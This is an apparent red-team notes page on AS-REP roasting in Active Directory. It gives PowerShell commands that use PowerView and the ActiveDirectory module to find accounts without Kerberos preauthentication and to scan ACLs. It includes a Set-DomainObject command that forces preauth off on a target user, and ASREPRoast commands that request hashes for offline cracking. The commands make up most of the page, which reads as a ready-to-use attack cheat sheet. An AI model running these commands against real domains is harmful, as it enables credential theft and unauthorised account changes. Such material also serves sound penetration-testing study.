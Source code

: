 ```yaml
---
tags: [
	hacking,
	kerberos,
	red-team
]
---
```


If a user's UserAccountControl settings have `Do Not Require Kerberos preauthentication` enabled it is possible to grab user's crackable AS-REP and brute-force it offline.

With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.

#### Enumeration
```PowerShell
# Using PowerView (dev) 
Get-DomainUser -PreauthNotRequired -Verbose  
```

```PowerShell
# Using ActiveDirectory module:  
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

```PowerShell
# Enumerate the permissions for RDPUsers on ACLs using PowerView(dev):
Invoke-ACLScanner -ResolveGUIDs |
?{$_.IdentityReferenceName -match "RDPUsers"} 
```

#### Forcing Kerberos pre-auth
```PowerShell
Set-DomainObject -Identity TargetUser5 -XOR @{useraccountcontrol=4194304} –Verbose
```

#### Request encrypted AS-REP for offline brute-force
https://github.com/HarmJ0y/ASREPRoast

```PowerShell
# Using ASREPROAST 
Get-ASREPHash -UserName VPN1user -Verbose  
```

```PowerShell
# To enumerate all users with Kerberos preauth disabled and request a hash  
Invoke-ASREPRoast -Verbose
```
